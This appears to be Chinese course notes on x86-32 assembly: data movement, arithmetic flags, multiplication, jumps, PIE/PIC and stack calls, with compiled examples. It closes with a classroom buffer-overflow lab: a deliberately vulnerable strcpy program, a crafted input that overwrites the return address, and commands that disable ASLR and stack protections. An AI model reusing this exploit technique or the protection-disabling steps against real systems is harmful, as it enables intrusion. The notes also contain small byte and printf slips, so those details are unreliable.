


# 程序调试实践：程序的机器级表示

**[:question: 传送指令](#传送指令)**  
**[:question: 加减运算指令](#加减运算指令)**  
**[:question: 整数乘法指令](#整数乘法指令)**  
**[:question: 控制转移指令](#控制转移指令)**  
**[:question: 栈和过程调用](#栈和过程调用)**  
**[:question: 缓冲区溢出](#缓冲区溢出)**

## 传送指令

### mov 指令

1. mov 指令：一般传送
2. movz 指令：零扩展传送
3. movs 指令：符号扩展传送

在传送指令后面，会带有数据宽度的符号，如`movl movb movswl`等（`b`表示 8 位，`w`表示 16 位，`l`表示 32 位）

| 指令                    | 含义                                                                                                                        |
| ----------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| movl $4,%eax            | 把立即数 4，用 4 个字节的宽度存入寄存器 eax 中                                                                              |
| movb $5,-0x14(%ebp)     | 把立即数 5 存入存储器的-0x14(%ebp)的地址单元中，占 1 个字节                                                                 |
| mov %ax-0x14(%ebp)      | 将 ax 寄存器内容存入存储器-0x14(%ebp)的连续地址单元中，占 2 个字节                                                          |
| mov %eax,-0x12(%ebp)    | 将寄存器 eax 内容存入存储器-0x12(%ebp)的连续地址单元中，占 4 个字节                                                         |
| mov $eax,%ebx           | 将寄存器 eax 的内容存入寄存器 ebx 中，宽度都是 32bit                                                                        |
| mov -0x10(%ebp),%eax    | 将-0x10(%ebp)地址开始的连续 4 个字节的存储内容，送到 eax 寄存器中                                                           |
| mov -0x10(%ebp),%ax     | 将-0x10(%ebp)地址开始的连续 2 个字节的存储内容，送到 ax 寄存器中                                                            |
| movswl -0x16(%ebp),%eax | 源数据是 16bit，目标数据是 32 位的，要做符号扩展</br>将-0x16(%ebp)开始的两个字节内容，符号扩展到 32 位后，送到寄存器 eax 中 |
| movzwl -0x16(%ebp),%eax | 源数据是 16bit，目标数据是 32 位的，要做零扩展</br>将-0x16(%ebp)开始的两个字节内容，零扩展到 32 位后，送到寄存器 eax 中     |

```c
#include <stdio.h>

int main(int argc, char** argv)
{
    short x = 0x8543;
    short y = 1;
    short z = 2;
    int p = 0x12345678;
    int q = 3;
    asm ("movzwl -0x16(%ebp),%eax\n\t"
        "mov %ax,-0x14(%ebp)\n\t"
        "movswl -0x16(%ebp),%eax\n\t"
        "mov %eax,-0xc(%ebp)\n\t"
        "mov -0x10(%ebp),%eax\n\t"
        "mov %ax,-0x12(%ebp)\n\t"
        );
    printf("x = %d, y = %d, z = %d\n", x, y, z);
    printf("p = %d, q = %d\n", p, q);
    return 0;
}
gcc -O0 -g -m32
// 输出结果：
x = -31421, y = -31421, z = 22136
p = 305419896, q = -31421

objdump -S 后部分汇编如下
short x = 0x8543;
119a:       66 c7 45 ea 43 85       movw   $0x8543,-0x16(%ebp)
short y = 1;
11a0:       66 c7 45 ec 01 00       movw   $0x1,-0x14(%ebp)
short z = 2;
11a6:       66 c7 45 ee 02 00       movw   $0x2,-0x12(%ebp)
int p = 0x12345678;
11ac:       c7 45 f0 78 56 34 12    movl   $0x12345678,-0x10(%ebp)
int q = 3;
11b3:       c7 45 f4 03 00 00 00    movl   $0x3,-0xc(%ebp)
可知x在-0x16(%ebp)，y在-0x14(%ebp)，z在-0x12(%ebp)，p在-0x10(%ebp)，q在-0xc(%ebp)
```

### mov 指令和 lea 指令

lea（Load Effect Address）指令：地址传送指令；寻址方式计算出来的地址送到寄存器（即将操作数的地址存入寄存器）  
mov 指令：是数据传送指令（将操作数地址对应的操作数存入寄存器）

```c
int main(int argc, char** argv)
{
    int p[2] = {0x12345678, 0x11223344};
    asm(
            "lea    -0x14(%ebp),%eax\n\t"
            "mov    -0x14(%ebp),%ebx\n\t"
            "mov    $1,%ecx\n\t"
            "lea    -0x14(%ebp,%ecx,4),%eax\n\t"
            "mov    -0x14(%ebp,%ecx,4),%ebx\n\t"
       );
    return 0;
}
gcc -O0 -g -m32
gdb调试汇编的前两条机器指令后如下图
可以看出%eax存放的是p[0]的地址，而%ebx存放的是p[0]的内容
```

<div align="left"></div>

### C 语言中整数之间的赋值运算实现

对整数赋值语句`Y = X`，假设`n`表示`X`的位串长度，`m`表示`Y`的位串长度

1. n=m 时，编译器直接用 mov 指令，将 X 的机器数赋值给 Y
2. n<m 时，X 定义为无符号整数，编译器用 movz 指令，将 X 的机器数传送给 Y
3. n<m 时，X 定义为带符号整数，编译器用 movs 指令，将 X 的机器数传送给 Y
4. n>m 时，仅将 X 的低 m 位传送给 Y（截断操作）

编译器会采用多条 MOV 指令来实现对一个数据的截断操作  
MOV 指令仅仅完成机器数的位串操作，并不关心机器数位串的类型  
编译器能够感知数据类型，根据数据的类型，将整数赋值运算翻译成不同的 MOV 指令实现

```c
#include <stdio.h>

int main(int argc, char** argv)
{
    int ix = -0x25432, iy, iz;
    short sx;
    unsigned uix, uiy, uiz;
    unsigned short usx;
    uix = ix;   // n = m, 直接传送
    sx = ix;    // n > m，截断
    usx = ix;   // n > m，截断
    iy = usx;   // n < m, 零扩展
    uiy = usx;  // n < m, 零扩展
    iz = sx;    // n < m, 符号扩展
    uiz = sx;   // n < m, 符号扩展
    printf("ix = %d\n", ix);
    printf("uix = %u\n", uix);
    printf("sx = %d\n", sx);
    printf("usx = %u\n", usx);
    printf("iy = %d\n", iy);
    printf("uiy = %u\n", uiy);
    printf("iz = %d\n", iz);
    printf("uiz = %u\n", uiz);
    return 0;
}
gcc -O0 -g -m32
// 输出结果如下
ix = -152626
uix = 4294814670
sx = -21554
usx = 43982
iy = 43982
uiy = 43982
iz = -21554
uiz = 4294945742

objdumpj -S 后部分汇编如下：
short sx;
unsigned uix, uiy, uiz;
unsigned short usx;
uix = ix;   // n = m, 直接传送
11a1:       8b 45 e0                mov    -0x20(%ebp),%eax
11a4:       89 45 e4                mov    %eax,-0x1c(%ebp)
sx = ix;    // n > m，截断
11a7:       8b 45 e0                mov    -0x20(%ebp),%eax
11aa:       66 89 45 dc             mov    %ax,-0x24(%ebp)
usx = ix;   // n > m，截断
11ae:       8b 45 e0                mov    -0x20(%ebp),%eax
11b1:       66 89 45 de             mov    %ax,-0x22(%ebp)
iy = usx;   // n < m, 零扩展
11b5:       0f b7 45 de             movzwl -0x22(%ebp),%eax
11b9:       89 45 e8                mov    %eax,-0x18(%ebp)
uiy = usx;  // n < m, 符号扩展
11bc:       0f b7 45 de             movzwl -0x22(%ebp),%eax
11c0:       89 45 ec                mov    %eax,-0x14(%ebp)
iz = sx;    // n < m, 符号扩展
11c3:       0f bf 45 dc             movswl -0x24(%ebp),%eax
11c7:       89 45 f0                mov    %eax,-0x10(%ebp)
uiz = sx;   // n < m, 符号扩展
11ca:       0f bf 45 dc             movswl -0x24(%ebp),%eax
11ce:       89 45 f4                mov    %eax,-0xc(%ebp)
```

## 加减运算指令

### Add 加法和 Sub 减法指令

对两个 32 位的二进制位串进行相加或相减，生成 32 位的和差结果，并生成标志信息送 eflags 寄存器  
注：不区分带符号整数还是无符号整数  
若数据被定义为带符号整数，后续指令可以根据 OF 状态标志位来判断是否溢出  
若数据被定义为无符号整数，后续指令可以根据 CF 状态标志位来判断结果是否有进/借位

<div align="left"></div>

```c
#include <stdio.h>

int addition(int x, int y)
{
    asm (
            "mov    8(%ebp),%eax\n\t"
            "add    0xC(%ebp),%eax\n\t"
        );
}

int subtraction(int x, int y)
{
    asm (
            "mov    8(%ebp),%eax\n\t"
            "sub    0xC(%ebp),%eax\n\t"
        );
}

int main(int argc, char** argv)
{
    int ix = 10;
    int iy = 4;
    int az, sz, z;
    unsigned ux = 10;
    unsigned uy = 4;
    unsigned auz, suz, uz;
    az = addition(ix, iy);
    auz = addition(ux, uy);
    printf("%d + %d = %d, %u + %u = %u\n", ix, iy, az, ux, uy, auz);
    sz = subtraction(ix, iy);
    suz = subtraction(ux, uy);
    printf("%d + %d = %d, %u + %u = %u\n", ix, iy, sz, ux, uy, suz);
    z = addition(2147483647, 1);    // CF=0 OF=1
    printf("2147483647 + 1 : %d, %u\n", z, z);
    uz = subtraction(3, 4);     // CF=1 OF=0
    printf("3 - 4 : %d, %u\n", uz, uz);
    return 0;
}
gcc -O0 -m32 -g
// 输出结果
10 + 4 = 14, 10 + 4 = 14
10 + 4 = 6, 10 + 4 = 6
2147483647 + 1 : -2147483648, 2147483648
3 - 4 : -1, 4294967295
```

### Cmp 比较指令

整数比较指令，实现两数减法运算，生成状态信息存入 eflags 寄存器。与 sub 指令不同的是，sub 指令保存减法的结果到目的寄存器

假设 A 和 B 是无符号整数：

|       | CF  | ZF  | 说明  |
| ----- | --- | --- | ----- |
| A - B |     | 1   | A = B |
| A - B | 1   | 0   | A < B |
| A - B | 0   | 0   | A > B |

假设 A 和 B 是带符号整数：

|       | SF  | OF  | ZF  | 说明  |
| ----- | --- | --- | --- | ----- |
| A - B |     |     | 1   | A = B |
| A - B | 1   | 0   | 0   | A < B |
| A - B | 1   | 1   | 0   | A > B |
| A - B | 0   | 0   | 0   | A > B |
| A - B | 0   | 1   | 0   | A < B |

1. A < B ： SF != OF and ZF == 0
2. A <= B ： SF != OF or ZF == 1
3. A > B ： SF == OF and ZF == 0
4. A >= B ： SF == OF or ZF == 1

## 整数乘法指令

实现整数乘法运算的指令有：加法指令、移位指令、乘法指令  
整数的乘法运算在电路层中通过加法和移位的迭代运算实现，乘法指令的执行时间远远长于加法指令的执行时间，所以遇到变量与常量的乘法运算时，编译器常常不用乘法指令，而是使用加法指令和移位指令实现

整数乘法指令：带符号整数乘法指令、无符号整数乘法指令  
整数乘法实现电路：带符号整数乘法指令与无符号整数乘法指令的电路不一样

```c

objdump -S后部分汇编如下
z1 = x * y;
11b6:       8b 45 d4                mov    -0x2c(%ebp),%eax
11b9:       0f af 45 d8             imul   -0x28(%ebp),%eax  // 带符号相乘，两个32位相乘
                                                             // 结果是64位，但指令仅保存低32位到寄存器eax中
11bd:       89 45 e4                mov    %eax,-0x1c(%ebp)
uz = ux * uy;
11c0:       8b 45 dc                mov    -0x24(%ebp),%eax
11c3:       0f af 45 e0             imul   -0x20(%ebp),%eax  // 结果仅取低32位，所以与mul指令一致
11c7:       89 45 e8                mov    %eax,-0x18(%ebp)
z2 = x * 3;
11ca:       8b 4d d4                mov    -0x2c(%ebp),%ecx
11cd:       89 c8                   mov    %ecx,%eax
11cf:       01 c0                   add    %eax,%eax
11d1:       01 c8                   add    %ecx,%eax        // 用加法指令实现乘法
11d3:       89 45 ec                mov    %eax,-0x14(%ebp)
z3 = x * 1024;
11d6:       8b 45 d4                mov    -0x2c(%ebp),%eax
11d9:       c1 e0 0a                shl    $0xa,%eax        // 用移位实现乘法
11dc:       89 45 f0                mov    %eax,-0x10(%ebp)
z4 = x*x + 4*x + 8;
11df:       8b 45 d4                mov    -0x2c(%ebp),%eax
11e2:       0f af c0                imul   %eax,%eax        // 乘法实现x*x
11e5:       8b 4d d4                mov    -0x2c(%ebp),%ecx
11e8:       c1 e1 02                shl    $0x2,%ecx        // 移位实现4*x
11eb:       01 c8                   add    %ecx,%eax
11ed:       83 c0 08                add    $0x8,%eax
11f0:       89 45 f4                mov    %eax,-0xc(%ebp)
```

## 控制转移指令

| 指令类别           | 指令功能                                                                                                                                                                         |
| ------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 无条件转移指令 JMP | 无条件转移到目标地址处执行                                                                                                                                                       |
| 条件转移指令       | 一种分支转移的情况，以 eflags 寄存器中的状态标志位或者状态标志位的逻辑运算结果为转移条件，如果满足转移条件，则转移到目标转移地址处执行，如果不满足转移条件，则顺序执行下一条指令 |
| 过程调用指令 CALL  | 一种无条件转移指令，将控制转移到被调用的子程序执行                                                                                                                               |
| 过程返回指令 RET   | 一种无条件转移指令，子程序最后一条指令，将控制从子程序返回到主程序继续执行                                                                                                       |
| 中断指令           | 调用中断服务程序，使程序的执行从用户态转移到内核态                                                                                                                               |

```c
#include <stdio.h>

int sum(int a[], int n)
{
    int i, sum = 0;
    for (i = 0; i < n; i++)
        sum += a[i];
    return sum;
}

int main(int argc, char** argv)
{
    int a[4] = {1, 2, 3, 4};
    int n = 3;
    int x = sum(a, n);
    printf("sum = %d\n", x);
    return 0;
}
gcc -O0 -g -m32 jmp.c -o jmp1
gcc -O0 -g -m32 jmp.c -no-pie -fno-pic -o jmp2
    pie：位置无关可执行程序
    -no-pie：不采用位置无关可执行程序
    pic：位置无关代码，程序可以加载到虚拟空间的任意位置
    -fno-pic：不采用位置无关的方式编译代码
objdump -S对比可知，
pie选项：main函数的地址一个是不固定的，一个是固定的
pic选项：一个有call和add两条语句，一个没有

// 默认pie，程序加载到随机位置
// 有call和add两条指令
int main(int argc, char** argv)
{
    11c2:       8d 4c 24 04             lea    0x4(%esp),%ecx
    11c6:       83 e4 f0                and    $0xfffffff0,%esp
    11c9:       ff 71 fc                push   -0x4(%ecx)
    11cc:       55                      push   %ebp
    11cd:       89 e5                   mov    %esp,%ebp
    11cf:       53                      push   %ebx
    11d0:       51                      push   %ecx
    11d1:       83 ec 30                sub    $0x30,%esp
    11d4:       e8 a7 fe ff ff          call   1080 <__x86.get_pc_thunk.bx>
    11d9:       81 c3 1b 2e 00 00       add    $0x2e1b,%ebx
    11df:       89 c8                   mov    %ecx,%eax
    11e1:       8b 40 04                mov    0x4(%eax),%eax
    11e4:       89 45 d4                mov    %eax,-0x2c(%ebp)
    11e7:       65 a1 14 00 00 00       mov    %gs:0x14,%eax
    11ed:       89 45 f4                mov    %eax,-0xc(%ebp)
    11f0:       31 c0                   xor    %eax,%eax
    int a[4] = {1, 2, 3, 4};
    11f2:       c7 45 e4 01 00 00 00    movl   $0x1,-0x1c(%ebp)
    11f9:       c7 45 e8 02 00 00 00    movl   $0x2,-0x18(%ebp)
    1200:       c7 45 ec 03 00 00 00    movl   $0x3,-0x14(%ebp)
    1207:       c7 45 f0 04 00 00 00    movl   $0x4,-0x10(%ebp)
    int n = 3;
    120e:       c7 45 dc 03 00 00 00    movl   $0x3,-0x24(%ebp)
    int x = sum(a, n);
    1215:       ff 75 dc                push   -0x24(%ebp)
    1218:       8d 45 e4                lea    -0x1c(%ebp),%eax
    121b:       50                      push   %eax
    121c:       e8 5c ff ff ff          call   117d <sum>
    1221:       83 c4 08                add    $0x8,%esp
    1224:       89 45 e0                mov    %eax,-0x20(%ebp)
    printf("sum = %d\n", x);
    1227:       83 ec 08                sub    $0x8,%esp
    122a:       ff 75 e0                push   -0x20(%ebp)
    122d:       8d 83 14 e0 ff ff       lea    -0x1fec(%ebx),%eax
    1233:       50                      push   %eax
    1234:       e8 07 fe ff ff          call   1040 <printf@plt>
    1239:       83 c4 10                add    $0x10,%esp
    return 0;
    123c:       b8 00 00 00 00          mov    $0x0,%eax
}

// 采用了-no-pie，程序加载到操作系统规定的地址
int main(int argc, char** argv)
{
80491b1:       8d 4c 24 04             lea    0x4(%esp),%ecx
80491b5:       83 e4 f0                and    $0xfffffff0,%esp
80491b8:       ff 71 fc                push   -0x4(%ecx)
80491bb:       55                      push   %ebp
80491bc:       89 e5                   mov    %esp,%ebp
80491be:       51                      push   %ecx
80491bf:       83 ec 34                sub    $0x34,%esp
80491c2:       89 c8                   mov    %ecx,%eax
80491c4:       8b 40 04                mov    0x4(%eax),%eax
80491c7:       89 45 d4                mov    %eax,-0x2c(%ebp)
80491ca:       65 a1 14 00 00 00       mov    %gs:0x14,%eax
80491d0:       89 45 f4                mov    %eax,-0xc(%ebp)
80491d3:       31 c0                   xor    %eax,%eax
   int a[4] = {1, 2, 3, 4};
80491d5:       c7 45 e4 01 00 00 00    movl   $0x1,-0x1c(%ebp)
80491dc:       c7 45 e8 02 00 00 00    movl   $0x2,-0x18(%ebp)
80491e3:       c7 45 ec 03 00 00 00    movl   $0x3,-0x14(%ebp)
80491ea:       c7 45 f0 04 00 00 00    movl   $0x4,-0x10(%ebp)
   int n = 3;
80491f1:       c7 45 dc 03 00 00 00    movl   $0x3,-0x24(%ebp)
   int x = sum(a, n);
80491f8:       ff 75 dc                push   -0x24(%ebp)
80491fb:       8d 45 e4                lea    -0x1c(%ebp),%eax
80491fe:       50                      push   %eax
80491ff:       e8 72 ff ff ff          call   8049176 <sum>
8049204:       83 c4 08                add    $0x8,%esp
8049207:       89 45 e0                mov    %eax,-0x20(%ebp)
   printf("sum = %d\n", x);
804920a:       83 ec 08                sub    $0x8,%esp
804920d:       ff 75 e0                push   -0x20(%ebp)
8049210:       68 08 a0 04 08          push   $0x804a008
8049215:       e8 26 fe ff ff          call   8049040 <printf@plt>
804921a:       83 c4 10                add    $0x10,%esp
   return 0;
804921d:       b8 00 00 00 00          mov    $0x0,%eax
}
```

## 栈和过程调用

栈和过程调用的相关内容见第一部分的[`c语言语句的机器级表示`](../第一部分-程序的表示、转换与链接/7-c语言语句的机器级表示.md#过程函数调用的机器级表示)

```c
#include <stdio.h>

void swap1(int* x, int* y)
{
    int t = *x;
    *x = *y;
    *y = t;
}

void swap2(int x, int y)
{
    int t = x;
    x = y;
    y = t;
}

int main(int argc, char** argv)
{
    int a = 15, b = 22;
    swap1(&a, &b);
    int c = 15, d = 22;
    swap2(c, d);
    printf("a = %d\tb=%d\n", a, b);
    printf("c = %d\td=%d\n", c, d);
    return 0;
}
gcc -m32 -g -O0
// 输出结果如下
a = 22  b=15
c = 15  d=22

objdump -S 后部分汇编如下
swap1(&a, &b);
121b:       8d 45 e8                lea    -0x18(%ebp),%eax
121e:       50                      push   %eax
121f:       8d 45 e4                lea    -0x1c(%ebp),%eax
1222:       50                      push   %eax
1223:       e8 55 ff ff ff          call   117d <swap1>
1228:       83 c4 08                add    $0x8,%esp
swap2(c, d);
122b:       ff 75 f0                push   -0x10(%ebp)
122e:       ff 75 ec                push   -0x14(%ebp)
1231:       e8 74 ff ff ff          call   11aa <swap2>
1236:       83 c4 08                add    $0x8,%esp
可以看出：
按地址传递时，存入到栈帧的内容是地址，使用了lea指令
按值传递时，存入到栈帧的的内容直接是c,d的值
```

## 缓冲区溢出

在过程调用时，ret 指令返回地址是调用者的下一条指令处继续执行，若此时返回地址修改成了某个代码段的首地址，若这段代码是恶意代码，这就是缓冲区溢出攻击

```c
// a.c
#include <stdio.h>
#include <string.h>

char code[] =
    "0123456789abcdef"      // buffer不越界的字节内容
    "abcdabcd"              // buffer与ebp旧指之间需要填充的内容
    "\x38\xde\xff\xff"      // b的main的ebp值
    "\60\x84\x04\x08"       // hacker首地址0x08048460
    "\x9d\x84\x04\x09";     // outputs的返回地址0x0804849d

int main(int argc, char** argv)
{
    char *arg[3];
    arg[0] = "./b";
    arg[1] = code;
    arg[2] = NULL;
    execve(arg[0], arg, NULL);
    return 0;
}

// b.c
#include <stdio.h>
#include <string.h>

void outputs(char* str)
{
    char buffer[16];
    strcpy(buffer, str);
    printf("%s\n", buffer);
}

void hacker(void)
{
    printf("beging hacked\n");
}

int main(int argc, char** argv)
{
    outputs(argv[1]);
    printf("yes\n");
    return 0;
}
```

缓冲区溢出攻击程序的执行步骤

1. 关闭栈随机化（只需要执行一次）  
   `sudo sysctl -w kernel.randomize_va_space=0`
2. 编译程序，同时关闭栈溢出检测，生成 32 位应用程序，支持栈段可执行：  
   `gcc -O0 -m32 -g -fno-stack-protector -z execstack -no-pie -fno-pic a.c -o a`  
   `gcc -O0 -m32 -g -fno-stack-protector -z execstack -no-pie -fno-pic b.c -o b`
3. 反汇编并保存到文本文件  
   `objdump -S a > a.txt`  
   `objdump -S b > b.txt`
4. 调试执行 a，完善 a.c 中的 code 内容  
   code 内容与计算机的编译环境有关，需要在自己计算机上调试信息确定
5. 重新编译 a2，确认填充的 ebp 值与调试中 b 的 main 的 ebp 值一致

linux 版本对 code 字符内容的影响因素

1. buffer 大小，根据 buffer 的定义
2. buffer 与 ebp 旧指有多大间距，调试得到
3. b 的 main 的 ebp 值，调试得到
4. hacker 过程的首地址，查看 b 反汇编代码得到
5. 调用 outputs 的返回地址，查看 b 反汇编代码得到
6. x86 是小端模式，用十六进制填充数据时要注意字节顺序
